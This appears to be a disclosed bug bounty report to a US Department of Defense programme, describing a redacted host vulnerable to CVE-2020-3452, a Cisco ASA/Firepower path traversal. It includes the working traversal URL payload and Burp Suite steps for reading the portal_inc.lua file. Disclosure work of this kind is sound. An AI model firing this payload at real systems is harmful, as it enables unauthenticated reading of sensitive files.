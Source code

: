 # [CVE-2020-3452] on ███████

## Report Details
- **Report ID**: 1234925
- **URL**: https://hackerone.com/reports/1234925
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-06-15T18:52:28.245Z
- **Disclosed**: 2022-04-07T20:06:57.713Z

## Reporter
- **Username**: splint3rsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
The following subdomain is vulnerable to CVE-2020-3452, which is an unauthenticated file read in Cisco ASA & Cisco Firepower.

#  URL:
https://████/

# Vulnerable URL:
https://███/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
██████████

# Resources:
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

## Impact

The vulnerability could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2020-3452

## Steps to Reproduce
* Go to https://██████/+CSCOE+/logon.html
* Intercept the request with Burpsuite
* Send the request to Repeater
* Change the URL path to the following `/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../as` an example to read "/+CSCOE+/portal_inc.lua" file.
* You will get the portal_inc.lua file

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
